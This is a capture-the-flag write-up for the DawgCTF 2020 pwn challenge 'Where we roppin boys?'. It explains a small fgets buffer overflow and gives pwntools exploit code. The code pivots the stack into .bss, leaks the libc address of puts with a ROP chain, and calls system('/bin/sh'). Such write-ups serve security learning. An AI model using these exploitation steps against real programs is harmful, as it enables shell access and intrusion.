 ## Where we roppin boys? (350pt)

### Description

> Forknife is still a thing right?
>
> nc [ctf.umbccd.io](http://ctf.umbccd.io/) 4100
>
> Author: trashcanna

### Attachment

[rop](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/DawgCTF2020/pwn/rop/rop)

### Analysis

#### buffer overflow

bof in function `tryme` :

```c
undefined4 tryme(void){
  char local_10 [8];
  
  fgets(local_10,0x19,stdin);
  fflush(stdin);
  return 0;
}
```

> 25 bytes copied to `local_10[8]`

![](http://image.taqini.space/img/20200413111414.png)

> only 8 bytes can be overwritten to `esp` 

there was no enough room for args of any function, so we need to enlarge the buffer by stack pivot and then rop attack was available 

### Solution

#### ret2text (fgets)

return to `fgets` so that we can read bytes to `buf` again:

```nasm
   0x80496d1 <tryme+ 7>:	call   0x8049100 <__x86.get_pc_thunk.bx>
   0x80496d6 <tryme+12>:	add    ebx,0x292a
   0x80496dc <tryme+18>:	mov    eax,DWORD PTR [ebx-0x4]
   0x80496e2 <tryme+24>:	mov    eax,DWORD PTR [eax]
   0x80496e4 <tryme+26>:	sub    esp,0x4
   0x80496e7 <tryme+29>:	push   eax
   0x80496e8 <tryme+30>:	push   0x19
   0x80496ea <tryme+32>:	lea    eax,[ebp-0xc]
   0x80496ed <tryme+35>:	push   eax
=> 0x80496ee <tryme+36>:	call   0x8049050 <fgets@plt>
```

> `fgets(ebp-0xc,0x19,stdin);`

#### stack pivot

>  bof cause `ebp` was overwritten, so we should make sure that new `ebp` is an area of readable & writable memory (e.g. `.bss` section)

set `ebp` to `bss+0x200` and overwrite return address with `0x80496d1`(call `fgets`):

```python
ebp = elf.bss()+0x200
# stack pivot
payload = cyclic(12)
payload+= p32(ebp)          # ebp
payload+= p32(0x080496d1)   # return address
payload+= p32(0xdeadbeef)   # padding
```

after that, new address of `buf` was in `.bss` while calling `fgets` again: 

![](http://image.taqini.space/img/20200413121247.png)

now we can puts `ropchain` into new `buf` to start rop attack

#### rop attack

set `ebp` to `buf-4` and execute gadget `leave;ret` to entry `ropchain`:

```python
# rop1
leave = 0x8049712 # leave ; ret
ropchain = p32(elf.sym['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
pl2 = ropchain        # (12)
pl2+= p32(ebp-0xc-4)  # ebp (4)
pl2+= p32(leave)      # return address (4)
pl2+= p32(0xdeadbeef) # padding (4)
se(pl2)
```

![](http://image.taqini.space/img/20200413130038.png)

this `ropchain` can leak address of `puts` in libc:

```python
puts = uu32(rc(4))
info_addr('puts',puts)
```

we can calc the base address of libc and then address of other function in libc:

```python
libcbase = puts-libc.sym['puts']
system = libcbase+libc.sym['system']
binsh = libcbase+libc.search('/bin/sh').next()
```

we back to `main` after the first rop attack, so stack pivot again and execute the second `ropchain` 

```python
# stack pivot 
ebp = elf.bss()+0x800
pl3 = cyclic(12)
pl3+= p32(ebp)          # ebp
pl3+= p32(0x080496d1)   # return address
pl3+= p32(0xdeadbeef)   # padding
se(pl3)

# rop2
ropchain = p32(system)+p32(elf.sym['main'])+p32(binsh)
pl4 = ropchain
pl4+= p32(ebp-0xc-4)  # ebp
pl4+= p32(leave)      # return address
pl4+= p32(0xdeadbeef) # padding
se(pl4)
```

> set `ebp` to `bss+0x800` because `system()` need more area of stack

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/DawgCTF2020/pwn/rop) 


